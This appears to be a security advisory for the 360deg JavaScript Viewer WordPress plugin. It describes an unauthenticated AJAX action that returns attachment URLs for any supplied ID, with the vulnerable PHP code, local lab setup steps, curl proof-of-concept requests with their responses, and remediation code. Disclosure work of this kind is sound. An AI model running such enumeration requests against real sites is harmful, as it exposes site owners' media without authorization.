


# 360° JavaScript Viewer — Unauthenticated AJAX Attachment URL Disclosure

## Product Information

| Field | Value |
|---|---|
| Product Name | 360deg JavaScript Viewer |
| Plugin Slug | `360deg-javascript-viewer` |
| Affected Component | Notifier AJAX functionality |
| Affected Action | `get_notifier_image` |
| Affected Parameter | `jsv360_notifier_image_id` |
| Vulnerability Type | Unauthenticated AJAX Endpoint / Attachment URL Enumeration / Information Disclosure |
| Plugin | https://wordpress.org/plugins/360deg-javascript-viewer/ |

## Vulnerable Files

- `admin/pages/class-jsv-360-admin_page_abstract.php`
- `admin/pages/class-jsv-360-admin_page_notifier.php`

### Relevant Code — AJAX Registration

```php
foreach ($this->customAjaxHooks as $methodName => $customAjaxHook) {
    add_action('wp_ajax_' . $methodName, array($this, $customAjaxHook));
    add_action('wp_ajax_nopriv_' . $methodName, array($this, $customAjaxHook));
}
```

### Relevant Code — Vulnerable Handler

```php
public function getNotifierImage()
{
    $imageId = $_GET[$this::NOTIFIER_IMAGE_ID];
    $image   = wp_get_attachment_image_src($imageId);

    $url = $image && count($image) > 0
        ? $image[0]
        : '';

    return wp_send_json_success([
        'url' => $url
    ]);
}
```

## Root Cause

The `get_notifier_image` AJAX action is registered for unauthenticated users through:

```php
add_action('wp_ajax_nopriv_get_notifier_image', ...);
```

However, the `getNotifierImage()` handler does not perform an authentication, authorization, capability, or nonce check before processing the user-controlled `jsv360_notifier_image_id` parameter.

The supplied attachment ID is passed directly to:

```php
wp_get_attachment_image_src($imageId);
```

The resulting image URL is then returned to the requester.

## Impact

An unauthenticated remote user can invoke the `get_notifier_image` AJAX endpoint and retrieve the URL associated with a supplied WordPress attachment ID without a valid WordPress authentication session.

The current PoC confirms unauthorized URL retrieval for a valid attachment ID.

## Description

### 1. Vulnerability Details

The plugin's generic admin AJAX framework registers custom AJAX handlers for both authenticated and unauthenticated users:

```
wp_ajax_<action>
wp_ajax_nopriv_<action>
```

The notifier class defines:

```php
'get_notifier_image' => 'getNotifierImage'
```

Consequently, WordPress registers an unauthenticated AJAX handler for `get_notifier_image`.

The handler accepts `jsv360_notifier_image_id` from `$_GET` and passes it to `wp_get_attachment_image_src()` without an authorization check. The resulting URL is returned through `wp_send_json_success()`.

### 2. Attack Vectors

An unauthenticated attacker can directly send a `GET` request to `/wp-admin/admin-ajax.php` with:

```
action=get_notifier_image
jsv360_notifier_image_id=<attachment_id>
```

No WordPress login session is required.

### Attack Flow

```
Unauthenticated Attacker
        |
        v
/wp-admin/admin-ajax.php
        |
        | action=get_notifier_image
        | jsv360_notifier_image_id=5
        v
wp_ajax_nopriv_get_notifier_image
        |
        v
getNotifierImage()
        |
        v
wp_get_attachment_image_src(5)
        |
        v
Attachment URL returned
```

## Test Environment Setup

The following setup was used to reproduce the issue in an isolated local WordPress environment.

### 1. Install Required Packages

```bash
sudo apt update

sudo apt install -y \
apache2 \
mariadb-server \
php \
php-mysql \
php-curl \
php-gd \
php-xml \
php-mbstring \
php-zip \
php-intl \
unzip \
wget \
imagemagick
```

### 2. Start Apache and MariaDB

```bash
sudo systemctl enable --now apache2
sudo systemctl enable --now mariadb
```

Verify:

```bash
sudo systemctl status apache2 --no-pager
sudo systemctl status mariadb --no-pager
php -v
```

### 3. Download WordPress

```bash
cd /tmp

wget https://wordpress.org/latest.tar.gz

sudo tar -xzf latest.tar.gz -C /var/www/
```

### 4. Configure Permissions

```bash
sudo chown -R www-data:www-data /var/www/wordpress

sudo find /var/www/wordpress \
  -type d -exec chmod 755 {} \;

sudo find /var/www/wordpress \
  -type f -exec chmod 644 {} \;
```

### 5. Configure Apache

The default Apache document root was used: `/var/www/html`

Copy WordPress:

```bash
sudo cp -r /var/www/wordpress /var/www/html/
```

Set permissions:

```bash
sudo chown -R www-data:www-data \
/var/www/html/wordpress
```

Restart Apache:

```bash
sudo systemctl restart apache2
```

Verify:

```bash
curl -I http://127.0.0.1/wordpress/
```

### 6. Create WordPress Database

```bash
sudo mariadb
```

Execute:

```sql
CREATE DATABASE wordpress
DEFAULT CHARACTER SET utf8mb4
COLLATE utf8mb4_unicode_ci;

CREATE USER 'wpuser'@'localhost'
IDENTIFIED BY 'StrongPassword123!';

GRANT ALL PRIVILEGES ON wordpress.*
TO 'wpuser'@'localhost';

FLUSH PRIVILEGES;

EXIT;
```

### 7. Configure wp-config.php

```bash
cd /var/www/html/wordpress

sudo cp wp-config-sample.php wp-config.php
```

Set the database values:

```php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'StrongPassword123!' );
define( 'DB_HOST', '127.0.0.1' );
```

Set permissions:

```bash
sudo chown www-data:www-data \
/var/www/html/wordpress/wp-config.php

sudo chmod 640 \
/var/www/html/wordpress/wp-config.php
```

### 8. Install WP-CLI

```bash
cd /tmp

wget https://raw.githubusercontent.com/wp-cli/builds/gh-pages/phar/wp-cli.phar

chmod +x wp-cli.phar

sudo mv wp-cli.phar /usr/local/bin/wp
```

Verify:

```bash
wp --info
```

### 9. Install WordPress

```bash
cd /var/www/html/wordpress

sudo -u www-data wp core install \
  --url='http://127.0.0.1/wordpress' \
  --title='360 JSV Lab' \
  --admin_user='labadmin' \
  --admin_password='ChangeThisStrongPassword!' \
  --admin_email='lab@example.local'
```

Verify:

```bash
sudo -u www-data wp core is-installed \
  --path=/var/www/html/wordpress
```

Expected:

```
Success: WordPress is installed.
```

## Plugin Installation

### 1. Copy the Plugin

```bash
sudo cp -r \
/path/plugins/360deg-javascript-viewer \
/var/www/html/wordpress/wp-content/plugins/
```

### 2. Set Permissions

```bash
sudo chown -R www-data:www-data \
/var/www/html/wordpress/wp-content/plugins/360deg-javascript-viewer
```

### 3. Activate the Plugin

```bash
sudo -u www-data wp plugin activate \
360deg-javascript-viewer \
--path=/var/www/html/wordpress
```

Verify:

```bash
sudo -u www-data wp plugin list \
--path=/var/www/html/wordpress | grep 360deg
```

## Attack Payload

### 1. Create Test Image

```bash
convert -size 100x100 xc:white /tmp/test.jpg
```

Verify:

```bash
ls -lh /tmp/test.jpg
```

### 2. Import Test Image

```bash
sudo -u www-data wp media import /tmp/test.jpg \
  --title="PoC Test Image" \
  --porcelain \
  --path=/var/www/html/wordpress
```

The test environment returned: `5`

Therefore: **Attachment ID = 5**

### 3. Valid Attachment ID — Unauthenticated Request

Send the request without a WordPress authentication cookie:

```bash
curl -i \
-H 'Cookie:' \
'http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=get_notifier_image&jsv360_notifier_image_id=5'
```

**Observed Response:**

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=UTF-8
```
```json
{
  "success": true,
  "data": {
    "url": "http://127.0.0.1/wordpress/wp-content/uploads/2026/08/test.jpg"
  }
}
```



The request was made without an authentication cookie.

### 4. Invalid Attachment ID

```bash
curl -i \
-H 'Cookie:' \
'http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=get_notifier_image&jsv360_notifier_image_id=999999'
```

**Observed Response:**

```json
{
  "success": true,
  "data": {
    "url": ""
  }
}
```


This demonstrates that the endpoint processes an attacker-controlled attachment ID without requiring authentication.

## Code Scan Trace

```
customAjaxHooks
      |
      v
get_notifier_image
      |
      v
wp_ajax_nopriv_get_notifier_image
      |
      v
getNotifierImage()
      |
      v
$_GET['jsv360_notifier_image_id']
      |
      v
wp_get_attachment_image_src()
      |
      v
JSON response containing URL
```

The endpoint lacks:

- An authorization/capability check such as `current_user_can()`
- Nonce verification such as `check_ajax_referer()` inside `getNotifierImage()`
- Attachment-level authorization before returning the URL

## Proof of Concept

### Request

```bash
curl -s \
-H 'Cookie:' \
'http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=get_notifier_image&jsv360_notifier_image_id=5' \
| jq .
```

### Response

```json
{
  "success": true,
  "data": {
    "url": "http://127.0.0.1/wordpress/wp-content/uploads/2026/08/test.jpg"
  }
}
```

### Result

The request:

- Was sent without authentication.
- Did not contain a WordPress session cookie.
- Successfully invoked `get_notifier_image`.
- Supplied an attacker-controlled attachment ID.
- Returned the corresponding attachment URL.

This demonstrates that the AJAX action is accessible to unauthenticated users and exposes attachment URL information.


## Suggested Remediation

### 1. Remove Unauthenticated AJAX Registration

If the notifier functionality is intended only for authorized users, remove:

```php
add_action(
    'wp_ajax_nopriv_get_notifier_image',
    array($this, 'getNotifierImage')
);
```

and retain:

```php
add_action(
    'wp_ajax_get_notifier_image',
    array($this, 'getNotifierImage')
);
```

### 2. Add Authorization

Inside `getNotifierImage()`:

```php
if (!current_user_can('manage_options')) {
    wp_send_json_error([
        'message' => 'Unauthorized'
    ], 403);
}
```

### 3. Add Nonce Verification

Use a nonce generated specifically for this AJAX operation:

```php
check_ajax_referer('jsv_notifier');
```

Nonce validation should complement, not replace, authorization checks.

### 4. Validate the Attachment ID

```php
$imageId = absint(
    $_GET[$this::NOTIFIER_IMAGE_ID] ?? 0
);

if (!$imageId) {
    wp_send_json_error([
        'message' => 'Invalid attachment ID'
    ], 400);
}
```


### 5. Enforce Attachment-Level Authorization

Before returning the URL, verify that the requesting user is authorized to access the requested attachment.

The application should not rely solely on the fact that `wp_get_attachment_image_src()` returns a URL.

## Additional Information

The vulnerability was reproduced in an isolated local WordPress environment using an unauthenticated HTTP request.

The vulnerable flow is caused by the combination of:

1. Registration of the AJAX action through `wp_ajax_nopriv_`.
2. Lack of authentication/authorization checks in `getNotifierImage()`.
3. Direct use of the attacker-controlled `jsv360_notifier_image_id`.
4. Returning the resulting attachment URL in the JSON response.

The current PoC demonstrates unauthenticated attachment URL retrieval. It does not independently prove access to private/protected media or sensitive documents. Therefore, the demonstrated impact should be described conservatively unless additional testing establishes disclosure of attachments that should not be accessible to unauthenticated users.
